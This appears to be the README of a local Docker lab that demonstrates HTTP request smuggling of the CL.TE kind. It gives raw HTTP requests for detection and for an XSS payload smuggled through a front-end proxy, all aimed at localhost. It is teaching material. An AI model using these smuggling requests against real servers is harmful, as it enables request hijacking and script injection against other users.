 # HTTP/1.1 CL.TE

The following application demonstrate request smuggling with the headers combination `Content-Length` and `Transfer-Encoding`.

### Running the lab

To run the lab, you need docker and docker-compose (now built in with docker).

```
> docker-compose up
```

Open `http://localhost` in a browser to confirm that everything is running.


### HRS Detection

The following request need to repeated ~10 times until you get `405 Not Allowed` (Method not allowed)
```
POST / HTTP/1.1
Host: localhost
Content-Length: 79
Transfer-Encoding: chunked

0

G
```


### HRS XSS Payload

Injecting an HTTP request in the proxy pipeline.
```
POST / HTTP/1.1
Host: localhost
Content-Length: 79
Transfer-Encoding: chunked

0

GET /contact.php?test=123"><img/src="xx"onerror="alert(1)"> HTTP/1.1
Foo:
```

Once this is sent. Refresh the home page or any page on the website until it is placed after the previous malicious request.
You should see the XSS trigger.

